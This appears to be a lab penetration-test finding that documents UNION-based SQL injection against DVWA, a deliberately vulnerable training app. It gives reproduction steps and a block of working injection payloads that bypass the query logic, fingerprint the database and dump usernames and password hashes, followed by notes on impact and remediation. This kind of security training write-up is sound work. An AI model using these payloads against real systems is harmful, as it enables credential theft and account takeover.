





# Finding 1 — SQL Injection (Classic / UNION-Based)

| | |
|---|---|
| **Severity** | 🔴 Critical |
| **OWASP Category** | [A03:2021 – Injection](../docs/OWASP_Top_10_2021.md#a032021--injection) |
| **CWE** | CWE-89: Improper Neutralization of Special Elements used in an SQL Command |
| **Location** | DVWA → SQL Injection (Security Level: Low) |
| **Parameter** | `id` (GET) |
| **Status** | ✅ Confirmed |

## Description

The `User ID` field passes user input directly into a SQL query without parameterization or sanitization, allowing the query's logic to be altered. This enables authentication bypass, data enumeration, and full extraction of the underlying database — including credential hashes.

## Steps to Reproduce

1. Navigate to **DVWA → SQL Injection**.
2. Submit a boolean-based payload to confirm injection: `1' OR '1'='1`
3. Determine the number of columns using an `ORDER BY` payload.
4. Use `UNION SELECT` to enumerate the database name and version.
5. Use `UNION SELECT` to extract usernames and password hashes from the `users` table.

## Payloads Used

```sql
-- Confirm injection (returns all rows instead of one)
1' OR '1'='1

-- Enumerate column count (error-based)
1' ORDER BY 3-- -

-- Confirm column count with UNION
1' UNION SELECT 1,2-- -

-- Fingerprint the database
1' UNION SELECT database(),version()-- -

-- Dump credentials
1' UNION SELECT user, password FROM users-- -
```

## Evidence

**1. Boolean-based confirmation** — `1' OR '1'='1` returns every user record instead of one:


**2. Column enumeration** — `ORDER BY 3` throws a MySQL/MariaDB error, confirming fewer than 3 columns:



**3. UNION SELECT iteration** — narrowing down the correct column count:



**4. Database fingerprinting** — `UNION SELECT database(),version()` reveals schema `dvwa` on `MariaDB 11.8.8`:



**5. Full credential dump** — usernames and MD5 password hashes extracted for every account:



**6. Full data dump via OR 1=1**, corroborating the initial injection point:



## Impact

An attacker can bypass authentication entirely, read and modify arbitrary data, and — depending on DB privileges — potentially achieve file read/write or command execution via stacked queries/UDFs. The extracted MD5 hashes are also crackable offline (e.g. via `hashcat` or CrackStation), leading to full account takeover.

## Remediation

- Use parameterized queries / prepared statements (e.g. PDO with bound parameters) — never concatenate user input into SQL strings.
- Apply strict server-side input validation (type, length, format) on the `id` parameter.
- Enforce least-privilege database accounts so the application cannot run arbitrary `UNION SELECT` against unrelated tables.
- Disable verbose SQL error messages in production; log them server-side instead.

---
[← Back to findings summary](../README.md#-findings-summary)
